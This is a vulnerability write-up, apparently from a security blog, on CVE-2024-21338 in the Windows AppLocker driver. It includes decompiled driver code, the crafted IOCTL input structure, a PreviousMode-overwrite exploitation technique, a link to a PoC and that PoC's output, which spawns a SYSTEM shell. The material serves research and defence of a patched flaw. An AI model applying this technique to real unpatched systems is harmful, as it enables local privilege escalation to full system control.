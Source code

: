 ```yaml
---
title:      "Windows Kernel Elevation of Privilege Vulnerability  "
subtitle:   "Sample Subtitle"
date:       2025-05-18
author:     "Ghostbyt3"
tags:    ["1day", "appid.sys", "windows", "kernel", "memory leak"]
categories: ["1Day Breakdown"]
authorbox: true
pager: true
toc: true
sidebar: "right"
layout: "single"
showTableOfContents: true
---
```


CVE-2024-21338 is a privilege escalation vulnerability in the Windows AppLocker driver (`appid.sys`). The flaw resides in the `AipSmartHashImageFile` function, reachable via IOCTL `0x22A018`, which allows user-mode input to control code execution. Specifically, the function dereferences two user-provided pointers from a shared SystemBuffer without verifying their validity or origin. One of these pointers is treated as a function pointer and is called directly from kernel mode. The patched version adds checks to ensure the input does not originate from user mode and restricts access.

**CVE-2024-21338:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21338  
**Vulnerability Type:** Untrusted Pointer Dereference  
**Tested On:** Windows 11 23H2  
**Driver Version:** appid.sys - 10.0.22621.3155    

## Vulnerability analysis


```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

      case 0x22A018u:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(WPP_GLOBAL_Control->AttachedDevice, 27LL, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids);
        if ( CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength == 32 )
        {
          ConfigOptions = AipSmartHashImageFile((__int64)_IRP->AssociatedIrp.SystemBuffer, 0LL, 0LL, 0LL); // Call to AipSmartHashImageFile with User input
LABEL_103:
          v9 = ConfigOptions;
          break;
        }
LABEL_25:
        v9 = -1073741811;
        break;
      default:
        v7 = WPP_GLOBAL_Control;
        if ( WPP_GLOBAL_Control == (PDEVICE_OBJECT)&WPP_GLOBAL_Control || (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) == 0 )
          goto LABEL_15;
        v8 = 28LL;
LABEL_14:
        WPP_SF_D(v7->AttachedDevice, v8, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids, LowPart);
LABEL_15:
        v9 = -1073741808;
        break;
    }


[::]
```

Following up, the process takes the following path and performs several checks. The main check happens in `appid!AipSmartHashImageFile()` whose primary functionality is passing the value at `SystemBuffer + 8` to [`ObfReferenceObject()`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obfreferenceobject). This routine increments the reference count of the specified object, which implies that the value at SystemBuffer + 8 must be a valid kernel object address. Otherwise, the reference operation will fail or potentially lead to a crash.

![IMG](/img/cve-2024-21338/img.png)

It calls the function pointer stored at `SystemBuffer + 16`, passing the value at `SystemBuffer` (i.e., the first 8 bytes) as an argument.

```c++
__int64 __fastcall AppHashComputeImageHashInternal(
        __int64 SystemBuffer,
        __int64 (__fastcall **SystemBuffer_16)(__int64, __int128 *),
        unsigned int a3,
        __int64 a4)
{

[::]

  __int64 v43; // [rsp+A8h] [rbp+Fh]

  v39 = SystemBuffer_16;
  *(_QWORD *)v32 = a4;
  v40 = SystemBuffer;
  v29 = 0;
  v37 = 0LL;
  v38 = 0LL;
  v5 = 0;
  v43 = 0LL;
  v6 = 0;
  v30 = 0;
  v33 = 0;
  v34 = 0;
  LODWORD(v35) = 0;
  *(_QWORD *)v41 = 0LL;
  v42 = 0LL;
  if ( !a3 )
    return 0;
  v7 = (*SystemBuffer_16)(SystemBuffer, &v42); // Vulnerable function call


[::]

```

This is a sample structure of how the input should be defined:

```c
typedef struct SMART_HASH_INPUT {
    DWORD64 Arguments_Ptr;
    PVOID Object_Ptr;
    PVOID ExpProfileDelete_Ptr;
    DWORD64 PADDING;
} _SMART_HASH_INPUT, *PSMART_HASH_INPUT;
```
- `Object_Ptr` must be a valid object pointer that satisfies the expectations of `AipSmartHashImageFile()`.
- `ExpProfileDelete_Ptr` is the API that will be invoked. This call is routed through `guard_dispatch_icall_fpt`, which enforces Kernel Control Flow Guard (KCFG). The `nt!ExpProfileDelete()` function ultimately calls the `ObfDereferenceObjectWithTag` kernel macro.
- This macro decrements the reference count field of the object passed to it (located at offset -0x30). This behavior makes it ideal for modifying the `PreviousMode` of a thread—from a user-mode value of 1 to a kernel-mode value of 0.
- To achieve this, we need to pass the address of `nt!ExpProfileDelete()` to `ExpProfileDelete_Ptr`, and `Arguments_Ptr` must point to the `KTHREAD.PreviousMode` field of the current thread.

## Exploit

Tested on: Windows 11 22H2 (01-2024 Build)
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-21338/POC

```
PS C:\Users\h4x\Desktop> .\CVE-2024-21338.exe -p 2116
[+] Trying to find Thread ID for the given process PID: 2116
[+] First Thread ID of the process: 2120
[+] NT base address fffff80012400000
[+] Found EPROCESS of the current process FFFFAD85DAFBE080
[+] Found KTHREAD of the current thread FFFFAD85D9335080
[+] Found EPROCESS of the system.exe FFFFAD85D64E8040
[+] Opened a THREAD_DIRECT_IMPERSONATION handle to the LOCAL_SERVICE process
[+] Opening handle to Applocker device
[+] Dummy FILE_OBJECT address: FFFFAD85DBA171D0
[+] Calling AipSmartHashImageFile ....success
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22621.1]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Acknowledgements

- It was explained by Nero0oo0 and can be found [here](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/).
- The [PoC](https://github.com/Nero22k/Exploits/tree/main/Windows/CVE-2024-21338) was developed by Nero0oo0, and the above PoC is based on it.

